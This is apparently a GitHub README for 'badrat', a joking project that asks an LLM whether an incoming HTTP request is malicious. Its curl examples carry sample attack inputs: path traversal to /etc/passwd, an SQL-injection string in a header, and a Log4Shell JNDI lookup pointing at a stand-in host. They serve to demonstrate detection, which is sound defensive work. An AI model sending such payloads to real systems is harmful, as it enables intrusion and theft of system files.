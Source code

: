 # badrat

We all know LLMs are 100% reliable so let's have it check if a HTTP request is potentially malicious or not.

## Running

Make sure `GROQ_API_KEY` is set, and then:

```sh
docker run -e GROQ_API_KEY -p 8080:8080 praktiskt/badrat:latest --port 8080
```

Now visit `/docs`, or send any kind of HTTP request towards `/slim` or `/complete` (see example below).

## Development

Make sure `GROQ_API_KEY` is set, and then:

```sh
# In one shell
make dev-fastapi

# In another shell
make dev-baml
```

Now you can send requests to check how malicious they are:
```sh
curl -s http://localhost:8000/slim?path=../../ | jq
# {
#   "possibly_dangerous": true
# }

curl -s http://localhost:8000/complete?path=../../../etc/passwd&user=admin&password=letmein \
    -H "Authorization: Bearer Robert'); DROP TABLE students; --" \
    -H "Cookie: session_id=1234567890abcdef; expires=Fri, 31-Dec-9999 23:59:59 GMT" \
    -H "X-API-KEY: topsecretkey" \
    -H "Referer: https://example.com/malicious-referrer" \
    -H 'User-Agent: ${jndi:ldap://example.com/malicious-payload}' \
    | jq
# {
#     "possibly_dangerous": true,
#     "dangerous_parameters": [
#     {
#         "parameter_path": "url.query.path",
#         "value": "../../../etc/passwd"
#     },
#     {
#         "parameter_path": "headers.authorization",
#         "value": "Bearer Robert'); DROP TABLE students; --"
#     },
#     {
#         "parameter_path": "headers.user-agent",
#         "value": "${jndi:ldap://example.com/malicious-payload}"
#     }
#     ]
# }
```
